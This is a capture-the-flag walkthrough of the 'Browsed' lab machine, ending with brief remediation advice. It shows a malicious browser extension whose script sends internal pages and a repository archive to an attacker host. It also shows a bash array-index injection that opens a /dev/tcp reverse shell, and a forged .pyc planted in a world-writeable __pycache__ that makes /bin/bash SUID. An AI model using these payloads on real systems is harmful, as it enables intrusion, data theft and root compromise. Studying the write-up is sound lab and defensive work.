

## Overview
This box features a unique way of abusing SSRF. As we visit a webpage that allows a user to upload a browser extension. This runs in a headless non-sandboxed mode that allows us to make requests as this browser with a malicious extension. This allows us to find an internal service that is exposed and we're able to utilize some command injection to get a reverse shell. This gives us a user who can run sudo for an extension_tool program that happens to have world-writeable `__pycache__` directory. This allows us to forge a malicious `.pyc` file and get root privileges.


## Initial Recon

### Scanning
The inital nmap scan reveals two ports:
- SSH : 22 
- HTTP : 80
```bash

nmap -vv -sCV -oA nmap/browsed -Pn -T4 --min-rate 1000 -p- 10.129.37.252
Increasing send delay for 10.129.37.252 from 5 to 10 due to 52 out of 129 dropped probes since last increase.
Warning: 10.129.37.252 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.37.252
Host is up, received user-set (0.069s latency).
Scanned at 2026-01-14 11:32:18 MST for 92s
Not shown: 63527 closed tcp ports (conn-refused), 2006 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 02:c8:a4:ba:c5:ed:0b:13:ef:b7:e7:d7:ef:a2:9d:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJW1WZr+zu8O38glENl+84Zw9+Dw/pm4IxFauRRJ+eAFkuODRBg+5J92dT0p/BZLMz1wZMjd6BLjAkB1LHDAjqQ=
|   256 53:ea:be:c7:07:05:9d:aa:9f:44:f8:bf:32:ed:5c:9a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICE6UoMGXZk41AvU+J2++RYnxElAD3KNSjatTdCeEa1R
80/tcp open  http    syn-ack nginx 1.24.0 (Ubuntu)
|_http-title: Browsed
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 14 11:33:50 2026 -- 1 IP address (1 host up) scanned in 92.37 seconds
```

So we view the host..

### Domain - browsed.htb

The page has a few notable things, it talks about uploading extensions, and has some samples for us to look at.




The first thing we should probably do is see what the default behavior is, so let's grab an extension and see the output from the upload page.

```bash
mkdir -p extensions
cd extensions
wget http://browsed.htb/fontify.zip

```

#### Extension Upload Behavior - SSRF Discovery

We can run a curl command to post to start off with.
```bash
curl -F "extension=@fontify.zip;type=application/zip" http://browsed.htb/upload.php
Running command: timeout 10s xvfb-run /opt/chrome-linux64/chrome --disable-gpu --no-sandbox --load-extension="/tmp/extension_6969c4c23fede6.25304738" --remote-debugging-port=0 --disable-extensions-except="/tmp/extension_6969c4c23fede6.25304738" --enable-logging=stderr --v=1 http://localhost/ http://browsedinternals.htb 2>&1 |tee /tmp/extension_6969c4c23fede6.25304738/output.log

```
And that gives us a timeout, but also reveals the command that's being run and it seems to be a horrendously vulnerable command not sandboxing and giving us all the log output, as well as making a request to an internal resource.
We don't even need the remote-debugging port or even the no-sandbox to actually make progress here.

Since the extension is just being ran, we can make requests and then capture them.

```bash
unzip fontify.zip

cat << EOF > manifest.json
{
  "manifest_version": 3,
  "name": "Grabber",
  "version": "1.0.0",
  "description": "Sends attackers juicy information",
  "permissions": ["scripting"],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content.js"],
      "run_at": "document_idle"
    }
  ]
}
EOF

cat << EOF > content.js

(async function() {
   const attackerIP = "$IP";
   const attackerPort = "$PORT";
   const internalHost = "http://browsedinternals.htb";

   async function exfilData(ip,port, content) {
      const b64Data = btoa(unescape(encodeURIComponent(content)));
      await fetch(`http://${ip}:${port}/loot`, {
         method: 'POST',
         mode: 'no-cors',
         body: b64Data
      });
   }

   async function getData(internalHost) {
      const resp = await fetch(internalHost);
      return await resp.text();
   }

   const content = await getData(internalHost);
   await exfilData(attackerIP, attackerPort, content);
})();
EOF


zip malicious.zip manifest.json content.js
```

Now we should probably adjust our http server to actually take post requests as well, since HTML pages can be rather long.

```python
#!/usr/bin/env python
from http.server import HTTPServer, BaseHTTPRequestHandler
import json
import base64
import os
PORT = 8000

class LootHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        
        try:
            raw_data = base64.b64decode(post_data).decode('utf-8')
            print(raw_data)
            
            self.send_response(200)
        except Exception as e:
            print(f"[-] Error: {e}")
            self.send_response(500)
        self.end_headers()


print(f"Waiting for responses on port {PORT}")
HTTPServer(('0.0.0.0', PORT), LootHandler).serve_forever()

```

Saving this as server.py.

```bash
chmod +x server.py
./server.py
```

Uploading the extension:
```bash
curl -F "extension=@malicious.zip;type=application/zip" http://browsed.htb/upload.php
```

We get a response back on our server from `browsedinternals.htb`

```html
<!DOCTYPE html>
<html lang="en-US" data-theme="gitea-auto">
<head>
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Gitea: Git with a cup of tea</title>
	<link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2Jyb3dzZWRpbnRlcm5hbHMuaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9icm93c2VkaW50ZXJuYWxzLmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vYnJvd3NlZGludGVybmFscy5odGI6MzAwMC9hc3NldHMvaW1nL2xvZ28uc3ZnIiwidHlwZSI6ImltYWdlL3N2Zyt4bWwiLCJzaXplcyI6IjUxMng1MTIifV19">
	<meta name="author" content="Gitea - Git with a cup of tea">
	<meta name="description" content="Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go">
	<meta name="keywords" content="go,git,self-hosted,gitea">
	<meta name="referrer" content="no-referrer">


	<link rel="icon" href="/assets/img/favicon.svg" type="image/svg+xml">
	<link rel="alternate icon" href="/assets/img/favicon.png" type="image/png">
	
<script>
</snip>
```

Reading the title, we can see it's `Gitea` a self hosted git platform, so there's likely some repos we can look at.
We can see it's in the `/explore/repos` end point.

So we can modify our extension's url to target that.
```bash
sed -iE 's#(browsedinternals.htb)#\1/explore/repos#' content.js
zip malicious.zip content.js 
curl -F "extension=@malicious.zip;type=application/zip" http://browsed.htb/upload.php
```

And the relevant snippet from the html page is here:
```html
	<svg viewBox="0 0 16 16" class="svg octicon-repo" aria-hidden="true" width="24" height="24"><path d="M2 2.5A2.5 2.5 0 0 1 4.5 0h8.75a.75.75 0 0 1 .75.75v12.5a.75.75 0 0 1-.75.75h-2.5a.75.75 0 0 1 0-1.5h1.75v-2h-8a1 1 0 0 0-.714 1.7.75.75 0 1 1-1.072 1.05A2.5 2.5 0 0 1 2 11.5Zm10.5-1h-8a1 1 0 0 0-1 1v6.708A2.5 2.5 0 0 1 4.5 9h8ZM5 12.25a.25.25 0 0 1 .25-.25h3.5a.25.25 0 0 1 .25.25v3.25a.25.25 0 0 1-.4.2l-1.45-1.087a.25.25 0 0 0-.3 0L5.4 15.7a.25.25 0 0 1-.4-.2Z"/></svg>


			</div>
			<div class="flex-item-main">
				<div class="flex-item-header">
					<div class="flex-item-title">
						
						<a class="text primary name" href="/larry">larry</a>/
						
						<a class="text primary name" href="/larry/MarkdownPreview">MarkdownPreview</a>
						<span class="label-list">
							
							
								
							
							
							
						</span>
					</div>
					<div class="flex-item-trailing muted-links">
						
							<a class="flex-text-inline" href="?q=&sort=recentupdate&language=Python">
								<i class="color-icon tw-mr-2" style="background-color: #3572A5"></i>
								Python
							</a>
						
						
							<a class="flex-text-inline" href="/larry/MarkdownPreview/stars">
								<span class="tw-contents" aria-label="Stars"><svg viewBox="0 0 16 16" class="svg octicon-star" aria-hidden="true" width="16" height="16"><path d="M8 .25a.75.75 0 0 1 .673.418l1.882 3.815 4.21.612a.75.75 0 0 1 .416 1.279l-3.046 2.97.719 4.192a.751.751 0 0 1-1.088.791L8 12.347l-3.766 1.98a.75.75 0 0 1-1.088-.79l.72-4.194L.818 6.374a.75.75 0 0 1 .416-1.28l4.21-.611L7.327.668A.75.75 0 0 1 8 .25m0 2.445L6.615 5.5a.75.75 0 0 1-.564.41l-3.097.45 2.24 2.184a.75.75 0 0 1 .216.664l-.528 3.084 2.769-1.456a.75.75 0 0 1 .698 0l2.77 1.456-.53-3.084a.75.75 0 0 1 .216-.664l2.24-2.183-3.096-.45a.75.75 0 0 1-.564-.41z"/></svg></span>
								<span >0</span>
							</a>
						
						<a class="flex-text-inline" href="/larry/MarkdownPreview/forks">
							<span class="tw-contents" aria-label="Forks"><svg viewBox="0 0 16 16" class="svg octicon-git-branch" aria-hidden="true" width="16" height="16"><path d="M9.5 3.25a2.25 2.25 0 1 1 3 2.122V6A2.5 2.5 0 0 1 10 8.5H6a1 1 0 0 0-1 1v1.128a2.251 2.251 0 1 1-1.5 0V5.372a2.25 2.25 0 1 1 1.5 0v1.836A2.5 2.5 0 0 1 6 7h4a1 1 0 0 0 1-1v-.628A2.25 2.25 0 0 1 9.5 3.25m-6 0a.75.75 0 1 0 1.5 0 .75.75 0 0 0-1.5 0m8.25-.75a.75.75 0 1 0 0 1.5.75.75 0 0 0 0-1.5M4.25 12a.75.75 0 1 0 0 1.5.75.75 0 0 0 0-1.5"/></svg></span>
							<span >0</span>
						</a>
					</div>
				</div>
				
				
				
				<div class="flex-item-body">Updated <relative-time prefix="" tense="past" datetime="2025-08-17T11:06:05Z" data-tooltip-content data-tooltip-interactive="true">2025-08-17 11:06:05 +00:00</relative-time></div>
			</div>
		</div>
	
</div>

```

We can see `larry/MarkdownPreview`

So we have to take a look at that repo.

```bash
sed -iE 's#/explore/repos/#/larry/MarkdownPreview#' content.js
zip malicious.zip content.js 
```

And we can see the repo's contents, but the most useful is probably the zip file:
```html
<a class="item muted archive-link" href="/larry/MarkdownPreview/archive/main.zip" rel="nofollow"><svg viewBox="0 0 16 16" class="svg octicon-file-zip" aria-hidden="true" width="16" height="16"><path d="M3.5 1.75v11.5c0 .09.048.173.126.217a.75.75 0 0 1-.752 1.298A1.75 1.75 0 0 1 2 13.25V1.75C2 .784 2.784 0 3.75 0h5.586c.464 0 .909.185 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v8.586A1.75 1.75 0 0 1 12.25 15h-.5a.75.75 0 0 1 0-1.5h.5a.25.25 0 0 0 .25-.25V4.664a.25.25 0 0 0-.073-.177L9.513 1.573a.25.25 0 0 0-.177-.073H7.25a.75.75 0 0 1 0 1.5h-.5a.75.75 0 0 1 0-1.5h-3a.25.25 0 0 0-.25.25m3.75 8.75h.5c.966 0 1.75.784 1.75 1.75v3a.75.75 0 0 1-.75.75h-2.5a.75.75 0 0 1-.75-.75v-3c0-.966.784-1.75 1.75-1.75M6 5.25a.75.75 0 0 1 .75-.75h.5a.75.75 0 0 1 0 1.5h-.5A.75.75 0 0 1 6 5.25m.75 2.25h.5a.75.75 0 0 1 0 1.5h-.5a.75.75 0 0 1 0-1.5M8 6.75A.75.75 0 0 1 8.75 6h.5a.75.75 0 0 1 0 1.5h-.5A.75.75 0 0 1 8 6.75M8.75 3h.5a.75.75 0 0 1 0 1.5h-.5a.75.75 0 0 1 0-1.5M8 9.75A.75.75 0 0 1 8.75 9h.5a.75.75 0 0 1 0 1.5h-.5A.75.75 0 0 1 8 9.75m-1 2.5v2.25h1v-2.25a.25.25 0 0 0-.25-.25h-.5a.25.25 0 0 0-.25.25"/></svg> Download ZIP</a>

```

#### Repo Exfiltration

So we'll try and grab that, but we'll have to modify our server to not print binary data and save the result to a file.
The updated snippet will look like this:
```python
class LootHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        
        try:
            with open(f"exfil.zip", 'wb') as f:
                f.write(post_data)
            print('- Post Data Saved - ')
            self.send_response(200)
        except Exception as e:
            print(f"[-] Error: {e}")
            self.send_response(500)
        self.end_headers()

```

Update our `content.js` a little more to just send RAW data rather than base64-encoded data.

```js

(async function() {
   const attackerIP = "10.10.15.242";
   const attackerPort = "8000";
   const internalHost = "http://browsedinternals.htb/larry/MarkdownPreview/archive/main.zip";

   async function exfilData(ip,port, data) {
      await fetch(`http://${ip}:${port}/loot`, {
         method: 'POST',
         mode: 'no-cors',
         body: data
      });
   }

   async function getData(internalHost) {
      const resp = await fetch(internalHost);
      return await resp.arrayBuffer();
   }

   const content = await getData(internalHost);
   await exfilData(attackerIP, attackerPort, content);
})();

```

```bash
zip malicious.zip content.js
curl -F "extension=@m.zip;type=application/zip" http://browsed.htb/upload.php
```

And we get our exfil.zip

```bash
unzip exfil.zip
Archive:  exfil.zip
dfa9f4c093b4d67f6a3ffeb8f9b0bafa67a70bef
   creating: markdownpreview/
  inflating: markdownpreview/README.md
  inflating: markdownpreview/app.py
   creating: markdownpreview/backups/
  inflating: markdownpreview/backups/data_backup_20250317_121551.tar.gz
  inflating: markdownpreview/backups/data_backup_20250317_123946.tar.gz
   creating: markdownpreview/files/
 extracting: markdownpreview/files/cf23093c09e7478382e716e31d06b3ef.html
   creating: markdownpreview/log/
  inflating: markdownpreview/log/routine.log
 extracting: markdownpreview/log/routine.log.gz
  inflating: markdownpreview/routines.sh
```


#### Local Service Discovery & Command Injection
Looking at `app.py` we can see that the service is local and hosted on port 5000. So we might be able to interact with it, but we have to find a good reason to do so.

Out of all the routes defined, the only one that is clearly suspect is `/routines/` because it seems to call a shell script.
```python
@app.route('/routines/<rid>')
def routines(rid):
    # Call the script that manages the routines
    # Run bash script with the input as an argument (NO shell)
    subprocess.run(["./routines.sh", rid])
    return "Routine executed !"
```

So let's check our routines.sh

```bash
#!/bin/bash

ROUTINE_LOG="/home/larry/markdownPreview/log/routine.log"
BACKUP_DIR="/home/larry/markdownPreview/backups"
DATA_DIR="/home/larry/markdownPreview/data"
TMP_DIR="/home/larry/markdownPreview/tmp"

log_action() {
  echo "[$(date '+%Y-%m-%d %H:%M:%S')] $1" >> "$ROUTINE_LOG"
}

if [[ "$1" -eq 0 ]]; then
  # Routine 0: Clean temp files
  find "$TMP_DIR" -type f -name "*.tmp" -delete
  log_action "Routine 0: Temporary files cleaned."
  echo "Temporary files cleaned."

elif [[ "$1" -eq 1 ]]; then
  # Routine 1: Backup data
  tar -czf "$BACKUP_DIR/data_backup_$(date '+%Y%m%d_%H%M%S').tar.gz" "$DATA_DIR"
  log_action "Routine 1: Data backed up to $BACKUP_DIR."
  echo "Backup completed."

elif [[ "$1" -eq 2 ]]; then
  # Routine 2: Rotate logs
  find "$ROUTINE_LOG" -type f -name "*.log" -exec gzip {} \;
  log_action "Routine 2: Log files compressed."
  echo "Logs rotated."

elif [[ "$1" -eq 3 ]]; then
  # Routine 3: System info dump
  uname -a > "$BACKUP_DIR/sysinfo_$(date '+%Y%m%d').txt"
  df -h >> "$BACKUP_DIR/sysinfo_$(date '+%Y%m%d').txt"
  log_action "Routine 3: System info dumped."
  echo "System info saved."

else
  log_action "Unknown routine ID: $1"
  echo "Routine ID not implemented."
fi
```


Now this looks particularly safe, however there's an issue with `[[ "$1" -eq 0 ]]`

Inside the `[[ ]]` brackets bash becomes a bit more helpful than it should be.
```bash
[[ "b[$(echo 1 > test)]" -eq 1 ]]
```

This evaluates the expression inside the b[] array, and you'll find a new file called `test` in your current directory.

So we can abuse this by sticking in a reverse shell inside the shell evaluation.

```bash
a[$(bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1')]
```

Let's update our `content.js` once again

```js
async function reverseMe() {
    const newUrl = "http://127.0.0.1:5000/routines/"
    const aIP = "$IP";
    const aPort = "$PORT";
    const rawShell = `bash -c 'bash -i >& /dev/tcp/${aIP}/${aPort} 0>&1'`;
    const b64Cmd = btoa(rawShell);
    const exp = `a[$(echo%20${b64Cmd}%20|base64%20-d|bash)]`;

    const combinedUrl = newUrl + exp;

    try {
        const resp = await fetch(combinedUrl, {mode: "no-cors"});
        if (!resp.ok) throw new Error(`HTTP ${resp.status}`);

    } catch (e) {
        fetch(`http://${aIP}/error?msg=${btoa(e.message)}`, {mode: 'no-cors'});
    }
}
reverseMe();
```

```bash
zip malicious.zip content.js
nc -lvnp 9001&
curl -F "extension=@malicious.zip;type=application/zip" http://browsed.htb/upload.php

```

## Foothold

### Shell as larry
And we get our shell as `larry`
```bash
Ncat: Version 7.98 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.39.48:42624.
bash: cannot set terminal process group (1460): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$ whoami
whoami
larry
```

## Lateral Movement / Privilege Escalation

The first thing we'd want to do is establish a nicer shell, we can use the stty trick with script or python, but there's an ssh key we can grab instead.
```bash
ls ~/.ssh/
authorized_keys
id_ed25519
id_ed25519.pub

cat ~/.ssh/id_25519
<snip>
```

Copy this over to our host and chmod 600 it and login via ssh instead.
Then running a `sudo -l` reveals we can run sudo on an extension_tool program
```bash
Matching Defaults entries for larry on browsed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User larry may run the following commands on browsed:
    (root) NOPASSWD: /opt/extensiontool/extension_tool.py


```

Checking that directory:
```bash
-bash-5.2$ ls -la
total 28
drwxr-xr-x 5 root root 4096 Jan 15 22:34 .
drwxr-xr-x 4 root root 4096 Aug 17 12:55 ..
drwxrwxr-x 5 root root 4096 Mar 23  2025 extensions
-rwxrwxr-x 1 root root 2739 Mar 27  2025 extension_tool.py
-rw-rw-r-- 1 root root 1245 Mar 23  2025 extension_utils.py
drwxrwxrwx 2 root root 4096 Jan 16 01:30 __pycache__
drwxr-xr-x 2 root root 4096 Jan 15 22:34 temp

```

It has a `__pycache__` directory that is _world-writeable_

This is important because it means we can basically hijack code because python will first check the `__pycache__` directory for any pre-compiled files for efficiency. There's some metadata it uses to make sure it's looking at the right files which we have to take into account, but we can.
So we don't even need to look at the code necessarily, just which file is created when we run this. Which should likely be `extension_utils.cpython-312.pyc`
```bash
-bash-5.2$ sudo $PWD/extension_tool.py --clean
[+] Manifest is valid.
[-] Skipping version bumping
[-] Skipping packaging
-bash-5.2$ ls -la __pycache__/
total 12
drwxrwxrwx 2 root root 4096 Jan 16 20:17 .
drwxr-xr-x 5 root root 4096 Jan 15 22:34 ..
-rw-r--r-- 1 root root 1880 Jan 16 20:17 extension_utils.cpython-312.pyc
```

And there it is! It uses the extension_utils, so we just need to hijack one of the functions.

extension_utils.py looks like:
```python
import os
import json
import subprocess
import shutil
from jsonschema import validate, ValidationError

# Simple manifest schema that we'll validate
MANIFEST_SCHEMA = {
    "type": "object",
    "properties": {
        "manifest_version": {"type": "number"},
        "name": {"type": "string"},
        "version": {"type": "string"},
        "permissions": {"type": "array", "items": {"type": "string"}},
    },
    "required": ["manifest_version", "name", "version"]
}

# --- Manifest validate ---
def validate_manifest(path):
    with open(path, 'r', encoding='utf-8') as f:
        data = json.load(f)
    try:
        validate(instance=data, schema=MANIFEST_SCHEMA)
        print("[+] Manifest is valid.")
        return data
    except ValidationError as e:
        print("[x] Manifest validation error:")
        print(e.message)
        exit(1)

# --- Clean Temporary Files ---
def clean_temp_files(extension_dir):
    """ Clean up temporary files or unnecessary directories after packaging """
    temp_dir = '/opt/extensiontool/temp'

    if os.path.exists(temp_dir):
        shutil.rmtree(temp_dir)
        print(f"[+] Cleaned up temporary directory {temp_dir}")
    else:
        print("[+] No temporary files to clean.")
    exit(0)
```

Since we used clean, let's use the clean_temp_files function.

```python
import os
def clean_temp_files(a):
  os.system('chmod +s /bin/bash')
  print('Modified bash!')

def validate_manifest(a): return True

```
We need to include both functions though, since it imports them.

Now how do we make a compiled python object? Python has a module just like http.server for this. But there's some extra stuff we need to do.

[PyC documentation](https://docs.python.org/3/library/py_compile.html)

>invalidation_mode should be a member of the PycInvalidationMode enum and controls how the generated bytecode cache is invalidated at runtime. The default is PycInvalidationMode.CHECKED_HASH if the SOURCE_DATE_EPOCH environment variable is set, otherwise the default is PycInvalidationMode.TIMESTAMP
>
>
>
>class py_compile.PycInvalidationMode
>
>    An enumeration of possible methods the interpreter can use to determine whether a bytecode file is up to date with a source file. The .pyc file indicates the desired invalidation mode in its header. See Cached bytecode invalidation for more information on how Python invalidates .pyc files at runtime.
>
>    Added in version 3.7.
>
>    TIMESTAMP
>
>        The .pyc file includes the timestamp and size of the source file, which Python will compare against the metadata of the source file at runtime to determine if the .pyc file needs to be regenerated.
>
>    CHECKED_HASH
>
>        The .pyc file includes a hash of the source file content, which Python will compare against the source at runtime to determine if the .pyc file needs to be regenerated.
>
>    UNCHECKED_HASH
>
>        Like CHECKED_HASH, the .pyc file includes a hash of the source file content. However, Python will at runtime assume the .pyc file is up to date and not validate the .pyc against the source file at all.
>
>        This option is useful when the .pycs are kept up to date by some system external to Python like a build system.


So when we run sudo our environment gets reset, the default should be `TIMESTAMP` which includes the timestamp and size of the source file. So we'd need to do some padding just a little touch.
I padded with comments, since it won't affect the code but fixes the size.


```bash
cat << EOF > /tmp/extension_utils.py 
import os
def clean_temp_files(a):
  os.system('chmod +s /bin/bash')
  print('Modified bash!')

def validate_manifest(a): return True
EOF

file_size=$(stat -c "%s" /opt/extensiontool/extension_utils.py)
our_size=$(stat -c "%s" /tmp/extension_utils.py)
pad=$(( file_size - our_size ))
for i in $(seq 1 $pad); do
   printf "#" >> /tmp/extension_utils.py;
done
touch -r /opt/extensiontool/extension_utils.py /tmp/extension_utils.py
python3 -m py_compile /tmp/extension_utils.py && cp /tmp/__pycache__/extension_utils.cpython-312.pyc /opt/extensiontool/__pycache__/
/bin/bash -p
```


And...we're root

## Remediations

### Web
Safe to say, don't ever `--no-sandbox` chrome and just run untrusted extensions unless you do it in a locked-down environment.

And validate inputs before you pass them into arguments, so for `/routines/<RID>` as a minimal and appropriate fix.
```python
@app.route('/routines/<rid>')
def routines(rid):
    if not rid.isdigit():
        abort(400, "Invalid routine ID")
    subprocess.run(["./routines.sh", rid])

# or
@app.route('/routines/<int:rid>')
def routines(rid):
    subprocess.run(["./routines.sh", str(rid)])

```

### Python
Don't allow sudo for random scripts!
Don't make `__pycache__` world-writeable!


